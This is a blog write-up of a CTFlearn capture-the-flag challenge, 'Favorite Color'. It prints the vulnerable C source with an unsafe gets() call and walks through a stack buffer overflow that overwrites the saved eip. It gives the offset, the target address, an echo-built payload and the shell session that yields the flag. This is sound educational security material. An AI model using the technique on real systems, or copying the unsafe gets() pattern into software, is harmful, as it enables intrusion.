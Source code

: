 ```yaml
---
title: "CTFlearn PWN Writeups"
permalink: "/ctflearn-pwn"
---
```


I plan to just keep adding PWN writeups here from [CTFlearn](https://ctflearn.com/).

1. [Favorite Color](#favorite-color-60-pts)

## Favorite Color [60 PTS Medium]

Source code is provided:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

We can see that good will always be 0 because if you `XOR` anything with itself it returns 0, and when you `AND` anything with 0, it will also return 0.

```c
int good = 0;
for (int i = 0; buf[i]; i++) {
    good &= buf[i] ^ buf[i];
}
```
Since `vuln` always returns 0, this check will never pass:

```c
if (vuln()) {
    puts("Me too! That's my favorite color too!");
    puts("You get a shell! Flag is in flag.txt");
    system("/bin/sh");
}
```

However we can see that there is a `buffer overflow` on this line:

```c
gets(buf);
```

We can use this `buffer overflow` to overwrite the saved `eip` on the stack. 

Since we can change the saved `eip`, we can make the program skip the `if (vuln())` check.

Open the program up in `GDB` and find the offset from our input to the saved `eip`:

![saved eip offset](/assets/ctflearn/pwn/favorite-color/gdb_eip_offset.png)

We can see that we need 52 junk bytes and then our address to overwrite the saved `eip`.

Find the address of the instruction after the `if (vuln())` check:

![address of next instruction](/assets/ctflearn/pwn/favorite-color/if_addr.png)

We can see that the `if (vuln())` check is happening on address `0x08048655`, so we'll set the saved `eip` to the address after that, `0x08048657`.

> ``📝:`` To get this view just type `disassemble main`, where `main` can be any function you want to disassemble. 

Keep in mind that x86 uses [little endian](https://stackoverflow.com/a/25939262), so bytes are stored in reverse order.

Our final payload:

```sh
echo -e 'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x57\x86\x04\x08' > /tmp/script/payload
```

The `-e` is to enable interpretation of backslash escapes. 

Now we can do `(cat /tmp/script/payload; cat) | ./color` to send the payload to the binary. 

> ``📝:`` We need to do `(cat x; cat)` because if we don't, then `stdin` will close, and we can't type anything else.

Running this, we get the flag:

```sh
color@ubuntu-512mb-nyc3-01:~$ (cat /tmp/script/payload; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
cat flag.txt
flag{REDACTED}
```

I'll keep adding more writeups for pwn challenges here when I do them.

